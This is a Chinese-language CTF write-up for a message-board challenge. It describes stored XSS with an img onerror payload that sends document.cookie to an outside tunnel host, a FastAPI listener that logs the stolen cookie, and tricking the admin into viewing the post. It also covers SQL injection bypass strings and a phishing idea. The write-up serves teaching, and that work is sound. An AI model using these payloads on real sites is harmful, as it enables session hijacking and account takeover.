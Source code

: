 # 免费的留言板

- 出题人: pyy

- 验题人: pyy

## 题目描述

免费提示:

- 咦, 这个题的中文名是不是翻译错了?

- ezSQL的flag仿佛名显玄机

  36分提示:

- 这个留言板怎么还可以发图片和按钮的?

- 登录界面好像还藏了一个管理员界面的按钮......藏哪了?

- 一切还是要等拿到管理员账户和密码后再说.......

## 出题思路

Java课要写个留言板, 于是那时候整了一个, 然后玩的时候发现可以搞一个经典的xss盗号。后来弄弄就有了这道题。(虽然前端也重写了, 后端也重写了, 还写了个amis前端热部署, 总之就是全重写了一遍) 实际上这题的前端是从数据库里动态生成的(amis一段json就能搞定, 至于效率, 管他呢), 所以原本是有另外一个钓鱼解法的(把前端页面的登录api改成自己的服务器, 这样就可以拿到所有登陆的人的用户名和密码), 但是怕有人瞎改(不瞎改就怪了, 谁知道这里面该写什么), 所以加了个复杂密码的验证, 相当于ban掉了。

## 解法

### 预期解法

(说起来, 你们看到别人在留言板里发图片和按钮而没见着传图片啥的, 不觉得奇怪吗?)

既然有人发按钮了, 那一定是有xss。(然后拿到管理员cookie就可以了)

先试着搞一波简单的script标签:

`<script>alert(1)<\script>`

![image-20220507080003099](readme.assets/image-20220507080003099.png)

![image-20220507080240490](readme.assets/image-20220507080240490.png)

发现没有显示出来但f12里有(说明没有被套标签), 但同时也没有弹框。(由于这个script是后来生成的而不是一开始就有的, 所以不会被执行。就像你f12往里加script标签一样。不同的是, 如果你加的是`<img src='' onerror=alert(1)>`, onerror里的代码就会被执行。)

```python
import fastapi
import uvicorn
app=fastapi.FastAPI()
if __name__=="__main__":
  uvicorn.run("pyy:app",host="0.0.0.0",port=60080)
```

fastapi起一个服务器, 反正只需要log功能所以啥也不用写。之后再开一个内网穿透, 这样cookie可以打过来。

然后用onerror写一个img标签进去, 然后src为我们的网站+get传cookie。

`<img src="" onerror='new Image().src="http://2pcohv0e.dnat.tech/?"+document.cookie'>`

![image-20220507084852129](readme.assets/image-20220507084852129.png)

收到了, 虽然里面有robot题的cookie, 接下来就是钓管理员上钩。(我钓我自己还有不成功的吗?)

首先交个举报, 说这条留言有问题。这样管理员就会来看这条留言。然后我们就拿到了cookie。

![image-20220507085131525](readme.assets/image-20220507085131525.png)

![image-20220507085215577](readme.assets/image-20220507085215577.png)

这样就上钩了。

![image-20220507085247788](readme.assets/image-20220507085247788.png)

然后拿着密码去登录:

![image-20220507085330814](readme.assets/image-20220507085330814.png)

发现多出来一个按钮, 那就进去看看吧。

![image-20220507085319302](readme.assets/image-20220507085319302.png)

### 非预期解1

由于ezSQL的存在, 所以也可以通过盲注的方式把管理员密码弄出来(当时考虑到了可以盲注, 但这个难度有些高没想到会有人用这个方法。sqlite区分字符串大小写, 无形降低难度)。顺带一说, ezSQL直接万能密码就可以。由于sqlite不认`#`以及用了双引号的语句所以可能有些同学没做出来。`1"or 1 or "`
